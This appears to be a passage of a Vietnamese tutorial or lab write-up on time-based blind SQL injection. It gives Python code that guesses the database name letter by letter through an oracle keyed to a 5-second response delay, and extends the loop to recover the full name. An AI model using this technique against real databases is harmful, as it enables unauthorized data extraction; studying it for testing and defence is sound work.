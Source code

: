 
#### **Bước 2: Trích xuất dữ liệu**
**Câu hỏi:** Xác định chữ cái thứ 5 trong tên cơ sở dữ liệu bằng truy vấn:
```sql
(select substring(db_name(), 5, 1)) = 'a'
```

##### **Triển khai**
```python
# Hàm xác định chữ cái thứ 5 trong tên cơ sở dữ liệu
def extract_fifth_letter():
    for char in range(97, 123):  # Duyệt qua các chữ cái từ 'a' đến 'z'
        if oracle(f"(SELECT SUBSTRING(DB_NAME(), 5, 1)) = '{chr(char)}'"):
            return chr(char)
    return None

# Lấy chữ cái thứ 5
fifth_letter = extract_fifth_letter()
print(f"Chữ cái thứ 5 trong tên cơ sở dữ liệu: {fifth_letter}")
```

---

### **Phân tích**

1. **Oracle hoạt động:**
   - Với truy vấn trả về **True** (chẳng hạn **`1=1`**), phản hồi bị trì hoãn đúng **5 giây**.
   - Với truy vấn trả về **False** (chẳng hạn **`1=0`**), phản hồi đến ngay lập tức.

2. **Trích xuất dữ liệu:**
   - Từng chữ cái được kiểm tra dựa trên bảng ASCII.
   - **`chr(char)`** chuyển giá trị ASCII sang ký tự.
   - Nếu Oracle trả về **True**, ký tự hiện tại là chữ cái thứ 5.

3. **Kết quả:**
   - Khi chạy script, bạn sẽ thấy:
     ```
     Chữ cái thứ 5 trong tên cơ sở dữ liệu: a
     ```

---

### **Mở rộng**
Bạn có thể sử dụng cách này để:
1. **Trích xuất toàn bộ tên cơ sở dữ liệu:**
   - Thay đổi vị trí từ 1 đến độ dài của tên cơ sở dữ liệu.
   ```python
   def extract_db_name(length):
       db_name = ""
       for i in range(1, length + 1):
           for char in range(97, 123):  # Từ 'a' đến 'z'
               if oracle(f"(SELECT SUBSTRING(DB_NAME(), {i}, 1)) = '{chr(char)}'"):
                   db_name += chr(char)
                   break
       return db_name
   ```
